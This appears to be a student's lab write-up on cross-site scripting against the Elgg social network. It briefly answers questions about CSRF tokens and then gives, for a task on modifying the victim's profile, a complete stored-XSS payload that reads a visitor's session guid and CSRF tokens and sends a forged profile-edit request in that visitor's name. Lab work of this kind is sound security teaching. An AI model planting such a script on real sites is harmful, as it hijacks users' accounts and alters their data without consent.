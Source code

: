 
## Question1:
The purpose of the `ts` and the `token` variable is meant to passed with the `GET` request so that this require can by pass the CSRF check
## Question2:

We will not be able to execute the attack because it will sanitized the input and not let it execute by the browser


# Task 5: Modifying the Victim’s Profile

We can add the following code to Alice's profile's about me section as HTML
```javascript
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  //Construct the content of your url.
  var content= "briefdescription=Samy is the best"+guid+ts+token; 
  var samyGuid=59; 
  var sendurl="/action/profile/edit" 
  if(elgg.session.user.guid!=samyGuid) 
  {
  //Create and send Ajax request to modify profile
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type",
  "application/x-www-form-urlencoded");
  Ajax.send(content);
  }
}
</script>
```

When we use Bob to visit samy's profile page, we can tell that it made a post edit request using bob'guid to change the `briefdescription` to `samy is the best`
![modify-profile](./attachments/modify-profile.png)
